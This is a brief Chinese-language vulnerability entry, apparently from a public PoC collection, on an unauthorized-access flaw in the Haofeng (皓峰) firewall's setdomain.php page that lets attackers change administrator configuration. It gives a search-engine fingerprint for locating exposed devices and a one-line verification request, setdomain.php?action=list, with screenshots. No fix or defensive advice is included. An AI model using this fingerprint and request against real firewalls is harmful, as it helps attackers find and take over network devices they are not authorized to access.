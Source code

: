 # 皓峰防火墙 setdomain.php 越权访问漏洞

## 漏洞描述

皓峰防火墙 setdomain.php 页面存在越权访问漏洞，攻击者通过漏洞可修改管理员等配置信息

## 漏洞影响

<a-checkbox checked>皓峰防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="皓峰防火墙系统登录"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628674369654-1d15b168-135b-408c-8ded-1006c68641c3.png)

验证POC

```php
/setdomain.php?action=list
```

![img](../../../.vuepress/public/img/1628674436226-bfc169f9-a2c1-4e15-9704-0ade0de81ab2.png)



若有收获，就点个赞吧
